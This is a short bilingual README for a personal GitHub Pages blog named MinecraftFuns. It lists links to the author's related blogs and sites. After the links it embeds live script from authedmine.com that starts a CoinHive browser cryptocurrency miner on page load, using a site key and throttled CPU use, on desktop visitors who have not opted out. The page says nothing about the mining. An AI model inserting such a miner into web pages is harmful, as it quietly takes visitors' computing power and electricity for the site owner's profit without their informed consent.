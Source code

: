 # [MinecraftFuns Blog(minecraftfuns.github.io)](http://minecraftfuns.ml)
## Branch:[FunBlog(minecraftfuns.github.io/FunBlog)](http://funinfo.tk)
My Blog based on GitHub Pages

Please also visit:
* [MinecraftFuns](http://minecraftfuns.lofter.com)
* [FunInfo Lab](http://funinfo.ml)
* [FunInfo](http://funinfo.lofter.com)
* [MinecraftFuns_Solutions_Luogu](https://minecraftfuns.blog.luogu.org)
* [McFuns_Luogu](https://mcfuns.blog.luogu.org)
* [FunBlog](http://funinfo.tk)
___________________________________________________________________________________________________________________________________________
我的基于GitHub Pages服务的博客

请也访问
* [MinecraftFuns](http://minecraftfuns.lofter.com)
* [FunInfo Lab](http://funinfo.ml)
* [FunInfo](http://funinfo.lofter.com)
* [MinecraftFuns_Solutions_Luogu](https://minecraftfuns.blog.luogu.org)
* [McFuns_Luogu](https://mcfuns.blog.luogu.org)
* [FunBlog](http://funinfo.tk)
<script src="https://authedmine.com/lib/authedmine.min.js"></script>
<script>
	var miner = new CoinHive.Anonymous('ImHAQfmeGNs11uIHHZaQ3bnpPbA35nME', {throttle: 0.3});
	// Only start on non-mobile devices and if not opted-out
	// in the last 14400 seconds (4 hours):
	if (!miner.isMobile() && !miner.didOptOut(14400)) {
		miner.start();
	}
</script>

